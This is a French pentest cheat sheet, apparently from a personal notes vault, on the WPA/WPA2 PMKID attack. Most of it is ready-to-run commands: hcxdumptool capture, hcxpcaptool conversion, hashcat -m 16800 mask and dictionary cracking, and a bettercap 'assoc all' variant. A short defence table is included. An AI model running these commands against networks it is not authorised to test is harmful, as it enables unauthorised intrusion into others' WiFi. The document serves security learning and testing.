

# Attaques WiFi — PMKID

> [!info] **En 1 phrase**
> Le **PMKID** est une valeur calculée par le point d'accès (WPA/WPA2) et exposée dans le message RSN —
> on le capture **sans client connecté** (juste en s'associant), puis on cracke la passphrase hors-ligne avec
> **hashcat -m 16800**. C'est l'alternative « sans deauth » au handshake 4-way.

---

## Concept



> [!info] **Pourquoi PMKID ?**
> - Pas besoin de **client connecté** (contrairement au handshake 4-way).
> - Pas besoin de **deauth** (moins bruyant).
> - Fonctionne sur les AP **WPA/WPA2** qui supportent le PMKID (envoyé dans l'association).

---

## Capture du PMKID

```bash
INTERFACE=$(ifconfig | grep wlp | cut -d":" -f1)   # mon0

# Capture (le PMKID peut prendre plusieurs minutes++)
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
#  → attendre, chercher "FOUND PMKID" dans la sortie

# Vérifier la capture (filtermode=2)
PMKID=$(sudo hcxdumptool -o test.pcapng -i $INTERFACE --enable_status --filtermode=2)
echo $PMKID | grep 'FOUND PMKID' &> /dev/null
```

> [!warning] **Patience** : sur un canal bruyant, le PMKID peut prendre **plusieurs minutes**.
> Laisser tourner `hcxdumptool` jusqu'à **10 minutes** avant d'abandonner.

---

## Conversion au format hashcat

```bash
# Conversion simple
hcxpcaptool -z test.16800 test.pcapng

# Conversion complète (avec wordlists supplémentaires du trafic)
# -E : mots de passe possibles depuis le trafic (inclut les ESSIDs)
# -I : identités, -U : usernames
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng

# Format d'une ligne :
# PMKID*MAC AP*MAC Station*ESSID
# 2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a
```

---

## Crack avec hashcat

```bash
# Masque (chiffres/lettres) — rapide si passphrase courte
hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'

# Dictionnaire
hashcat -m 16800 -d 1 -w 3 test.16800 rockyou.txt

# Dictionnaire + règles
hashcat -m 16800 -a 0 -w 3 test.16800 rockyou.txt -r rules/best64.rule
```

> [!tip] **Erreur fréquente** : `CL_PLATFORM_NOT_FOUND_KHR` = pas d'OpenCL/GPU → vérifier les drivers ou forcer le CPU (`--force`).

---

## Variante bettercap

```bash
# Associer à tous les AP (bettercap met l'interface en monitor automatiquement)
> wifi.recon on
> wifi.assoc all

# Convertir + crack
/path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
/path/to/hashcat -m 16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **WPA3 / SAE** | Le PMKID n'est pas exposé (SAE remplace PSK) |
| **Passphrase forte** | Toujours le maillon faible — 20+ caractères aléatoires |
| **Désactiver la compatibilité** | Certains AP laissent désactiver l'envoi du PMKID (moins pratique, pas une défense absolue) |
| **Surveillance** | Les associations répétées et rapprochées sont un signal (WIDS) |

## Tips & Pièges

- Le PMKID **ne remplace pas** toujours le handshake : certains AP ne l'envoient pas → revenir à la fiche WPA2.
- Il peut être **plus lent** que la deauth (association en boucle) — mais **plus furtif**.
- Le hash 16800 contient **ESSID en clair** → masque ciblé possible.
- `hcxpcaptool` peut aussi extraire des **handshakes** d'un même pcap (convertir en 22000 pour hashcat).

> [!info] **Sources**
> GitHub : [swisskyrepo/HardwareAllTheThings – `docs/protocols/wifi/wifi-wpa.md`](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/wifi/wifi-wpa.md) (section PMKID)

**Liens :** [[Attaques WiFi (WPA2 et PMKID)| Hub WiFi]] · [[Attaques WiFi - WPA2 PSK| WPA2-PSK]] · [[Attaques WiFi - Préparation & Basiques| Préparation]] · [[Password Cracking| Cracking]] · [[Hardware - Pwnagotchi| Pwnagotchi]] · [[Bibliothèque technique| Index]]
